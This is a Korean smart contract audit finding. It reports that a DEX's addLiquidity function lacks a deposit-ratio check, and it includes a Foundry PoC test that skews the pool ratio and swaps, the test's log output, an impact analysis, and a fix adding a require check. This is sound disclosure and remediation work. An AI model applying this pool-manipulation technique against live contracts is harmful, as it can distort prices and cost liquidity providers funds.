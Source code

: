 # DEX - addLiquidity의 유동성 공급비 검증의 부재

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있다.

</aside>

```solidity
if (totalSupply_ == 0) {
            //if first supply
            LPTokenAmount = _sqrt(tokenXAmount * tokenYAmount);
        } else {
            // calculate over the before
            liqX = _mul(tokenXAmount, totalSupply_) / amountX;
            liqY = _mul(tokenYAmount, totalSupply_) / amountY;
            LPTokenAmount = (liqX < liqY) ? liqX : liqY;
        }
```

유동성 풀에 초기에 공급된 비율로 공급되는지 검사하고 이를 유동성 풀의 비율이 깨지지 않게 공급되도록 유도해야 한다. 하지만 이에 대한 검증이 이루어지지 않고 유동성 풀에 공급하게 된다.

그리고 이때 LP토큰 발행량은 tokenXAmount에 의존하여 발행된다.

따라서 유동성 풀의 비율을 임의로 조작할 수 있고 이는 곧 적절하지 못한 가격으로 토큰을 교환할 수 있으며 LP토큰의 발행량이 잘못 책정되는 요인이 된다.

## PoC

```solidity
function testPOC() external {
        tokenX.transfer(address(0x01), 1 ether);
        tokenY.transfer(address(0x01), 100 ether);

        tokenX.transfer(address(0x02), 100 ether);
        tokenY.transfer(address(0x02), 5002 ether);
        uint256 LP1;
        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
            console.log("LP1", LP1);
        }
        vm.stopPrank();

        vm.startPrank(address(0x02));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);
            console.log("LP2", lp);

            console.log(
                "user 2 : before swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
            uint res = dex.swap(0, 5001 ether, 0);
            console.log(
                "user 2 : after swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );

            dex.removeLiquidity(lp, 0, 0);
            console.log(
                "user 2 : Attack result",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
        }
        vm.stopPrank();
}
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 444939)
Logs:
  LP1 10000000000000000000
  LP2 100000000000000000
  user 2 : before swap balance 0 101000000000000000000
  user 2 : after swap balance 50474737368684342171 0
  user 2 : Attack result 50974987493746873436 2000000000000000000
```

초기 유동성 풀에 A가 x토큰과 y토큰을 1:100 비율로 토큰을 공급한다. 이는 곧 실제 토큰의 가치에 따른 교환비라고 볼 수 있다.

이때 유저 B가 기존의 유동성 비율과는 무관하게 x토큰과 y토큰을 100:1 비율로 공급한다. 이때 유동성 풀에는 1:1 로 토큰이 존재한다. 이후 swap을 통해 y토큰을 x토큰으로 변환한다.

유동성풀의 비율이 본래 가치를 따르지 않고 잘못된 토큰 비율로 계산되어 변환된다.

이 결과로 본래 가치는 100:1 이지만 교환의 결과는 y토큰 101개가 x토큰 약 50개로 변환되는 것을 확인가능하다. 해당 DEX의 유동성 풀의 비율이 깨졌기 때문이다.

하지만 이후 LP토큰을 반환하여 유동성을 제거하는 상황을 보면 이전 최영현 드리머 코드에서 발견된 취약점과는 사뭇 다르다. 유저 B의 토큰 발행량은 X토큰 공급량과 Y토큰 공급량 중 적은 쪽으로 토큰이 발행되었기에 y토큰 1개 만큼의 교환비로 공급하였다고 계산하여 1/101의 지분만큼 토큰이 발급된다.

초기 자본은 x토큰 100 ether, y토큰 102 ether였지만, 교환 이후에는 약 50 ether, 2 ether가 발급된다.

즉, 이를 통해 공격자가 이득을 취할 수 있는 방법은 없다. 결국 공격자가 공급한 공급량으로 조작된 교환 비율은 공급자 모두가 지분대로 나눠서 이득을 보는 구조이기에, 공격자는 조작된 가격으로 교환을 하거나, 사전에 토큰을 발행해놓더라도 공격을 위한 투자금을 회수하기조차 힘들다.

## 파급력

유동성 풀의 비율이 깨지고 이로 인해 교환비가 깨지는 것은 DEX의 주요 기능이 정상작동하지 않음을 의미한다. 하지만 이를 이용해 누군가가 이득을 취할 수 있는 구조는 아니다.

유저의 실수로 토큰을 잘못된 비율로 공급할 경우 그대로 처리되지만 토큰은 적게 발행되어 유저의 손실이 발생할 수 있다. 잘못된 비율로 공급된 토큰은 이후 다른 유저들이 토큰을 교환하거나 공급성을 제거함으로써 이득을 취할 수 있게 된다.

이를 악용하여 공격자(개인 혹은 집단)가 직접 유동성 풀의 비율을 조작하여 투자금보다 더 많은 금액을 획득할 수는 없다. 하지만 공격자가 악용할 수 있는 여지는 있다. 다른 유저들이 잘못된 비율로 공급하도록 유도하거나 이를 감지하여 토큰의 가치가 잘못 메겨지면 토큰을 교환하거나 유동성을 제거하는 봇을 만들어 이득을 취하는 방법 정도는 존재한다.

하지만 공격자가 이득을 취할 수 있는가와는 별개로, DEX의 핵심 기능을 해칠 수 있는 취약점이라고 판단하여 위험도를 매우 높음으로 판단하였다.

## 해결 방안

```solidity
if (totalSupply_ == 0) {
            //if first supply
            LPTokenAmount = _sqrt(tokenXAmount * tokenYAmount);
        } else {
            // calculate over the before
            require(
                tokenXAmount * amountY == tokenYAmount * amountX,
                "imbalance add liquidity"
            );
            liqX = _mul(tokenXAmount, totalSupply_) / amountX;
            liqY = _mul(tokenYAmount, totalSupply_) / amountY;
            LPTokenAmount = (liqX < liqY) ? liqX : liqY;
        }
```

초회 공급이 아닌 경우에는 공급비가 유동성 풀의 비율과 동일한지 검사해야 한다.
